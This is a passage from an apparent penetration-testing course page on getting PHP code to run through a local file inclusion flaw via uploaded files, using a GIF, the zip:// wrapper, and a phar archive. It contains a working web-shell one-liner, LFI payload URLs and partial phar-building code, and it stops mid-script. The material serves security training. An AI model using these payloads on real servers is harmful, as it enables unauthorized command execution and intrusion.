 </div>
<p>With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:
<img alt="Shipping containers and cranes at a port with user data information displayed." class="website-screenshot" data-url="http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=./profile_images/shell.gif&amp;cmd=id" src="/storage/modules/23/lfi_include_uploaded_gif.jpg"/></p>
<p>As we can see, we included our file and successfully executed the <code>id</code> command.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> To include to our uploaded file, we used <code>./profile_images/</code> as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to <code>../</code> out of that directory and then use our URL path, as we learned in previous sections.</p>
</div>
</div>
<hr/>
<h2>Zip Upload</h2>
<p>As mentioned earlier, the above technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.</p>
<p>We can utilize the <a href="https://www.php.net/manual/en/wrappers.compression.php">zip</a> wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named <code>shell.jpg</code>), as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ echo '&lt;?php system($_GET["cmd"]); ?&gt;' &gt; shell.php &amp;&amp; zip shell.jpg shell.php
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.</p>
</div>
</div>
<p>Once we upload the <code>shell.jpg</code> archive, we can include it with the <code>zip</code> wrapper as (<code>zip://shell.jpg</code>), and then refer to any files within it with <code>#shell.php</code> (URL encoded). Finally, we can execute commands as we always do with <code>&amp;cmd=id</code>, as follows:
<img alt="Shipping containers and cranes at a port with user data and a PHP notice about an undefined variable." class="website-screenshot" data-url="http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=zip://./profile_images/shell.jpg%23shell.php&amp;cmd=id" src="/storage/modules/23/data_wrapper_id.png"/></p>
<p>As we can see, this method also works in executing commands through zipped PHP scripts.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> We added the uploads directory (<code>./profile_images/</code>) before the file name, as the vulnerable page (<code>index.php</code>) is in the main directory.</p>
</div>
</div>
<hr/>
<h2>Phar Upload</h2>
<p>Finally, we can use the <code>phar://</code> wrapper to achieve a similar result. To do so, we will first write the following PHP script into a <code>shell.php</code> file:</p>
<pre><code class="language-php">&lt;?php
$phar = new Phar('shell.phar');
$phar-&gt;startBuffering();
$phar-&gt;addFromString('shell.txt', '&lt;?php system($_GET["cmd"]); ?&gt;');
$phar-&gt;setStub('&lt;?php __HALT_COMPILER(); ?&gt;');
